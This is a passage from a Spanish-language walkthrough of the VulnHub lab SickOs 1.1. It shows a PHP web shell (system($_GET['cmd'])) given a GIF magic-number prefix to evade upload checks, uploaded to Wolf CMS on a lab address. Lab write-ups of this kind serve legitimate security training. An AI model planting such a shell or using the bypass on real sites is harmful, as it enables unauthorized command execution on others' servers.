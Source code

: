 Lo que vamos a hacer, es subir nuestro propio archivo .php y vizualizarlo en la web.

![upload_file](/assets/img/commons/vulnhub/SickOs1.1/upload_file.png){: .center-image }

Cargamos nuestro archivo php con el siguiente código:

```bash
❯ cat cmd.php
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: cmd.php
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ GIF8;
   2   │ <?php
   3   │ system($_GET['cmd']);
   4   │ ?>
```

`GIF8;` Hace referencia a los magic numbers de gif, por si hay validaciones de extensión, con esto podemos evitarlas.

Los archivos se encuentran en: `http://10.11.12.15/wolfcms/public`.

![file](/assets/img/commons/vulnhub/SickOs1.1/file.png){: .center-image }

![cmd](/assets/img/commons/vulnhub/SickOs1.1/cmd.png){: .center-image }
